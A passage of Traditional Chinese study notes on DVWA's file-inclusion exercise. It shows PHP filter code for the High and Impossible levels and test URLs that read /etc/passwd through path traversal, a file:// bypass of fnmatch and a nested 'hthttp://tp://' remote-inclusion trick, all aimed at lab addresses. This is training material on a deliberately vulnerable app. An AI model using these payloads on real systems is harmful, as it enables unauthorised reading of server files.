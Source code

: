 ```
LFI 攻擊測試==>
http://192.168.2.119/DVWA/vulnerabilities/fi/?page=..//etc/passwd

RFI 攻擊測試==>
http://192.168.2.119/DVWA/vulnerabilities/fi/?page=hthttp://tp://google.com
```


### High
***

>* 嚴格定義include的檔案名稱是file開頭[file1.php, file2.php , file3.php ]

伺服器程式分析
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation(輸入驗證)
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
使用了fnmatch函數檢查page參數，要求page參數的開頭必須是file，伺服器才會去包含相應的檔

攻擊測試
```
LFI 攻擊測試==>利用file協定
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=file:///etc/passwd

比較看看
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=/etc/passwd

RFI 攻擊測試==>無法攻擊
```
### Impossible
***
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
# File Upload（文件上傳）
